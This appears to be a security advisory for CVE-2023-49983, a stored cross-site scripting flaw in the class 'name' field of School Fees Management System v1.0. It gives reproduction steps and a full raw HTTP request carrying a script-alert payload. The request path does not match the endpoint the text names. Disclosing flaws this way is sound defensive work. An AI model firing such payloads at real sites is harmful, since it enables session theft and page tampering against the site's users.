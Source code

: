 # CVE-2023-49983
# School Fees Management System v1.0 - Cross-Site Scripting (XSS) Vulnerability in "name" field/parameter on "/management/class"

**Description**: A cross-site scripting (XSS) vulnerability in the component "/management/class" of School Fees Management System v1.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the name parameter.  

**Vulnerable Product Version**: School Fees Management System v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49983  
**Tested on**: Windows  
### Steps to reproduce:  
To exploit the vulnerability, a user with appropriate permissions must access the "/ci_fms/admin/management/class" page. On this page, the user should either edit an existing class or add a new one. The malicious payload needs to be inserted into the "name" parameter during this process.
### Request:  
```
POST /ci_fms/admin/action/edit_student/1/1 HTTP/1.1
Host: 192.168.68.148
Content-Length: 268
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.68.148
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydFBWs52W42v8XLGe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.68.148/ci_fms/admin/enrollment/class/1
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ci_session=c561k45qbrtsb34f2k30f936v0aijl01
Connection: close

------WebKitFormBoundarydFBWs52W42v8XLGe
Content-Disposition: form-data; name="name"

<script>alert(document.domain)</script>
------WebKitFormBoundarydFBWs52W42v8XLGe
Content-Disposition: form-data; name="parent"

1
------WebKitFormBoundarydFBWs52W42v8XLGe--
```     

Discoverer(s)/Credits:  
Geraldo Alcântara
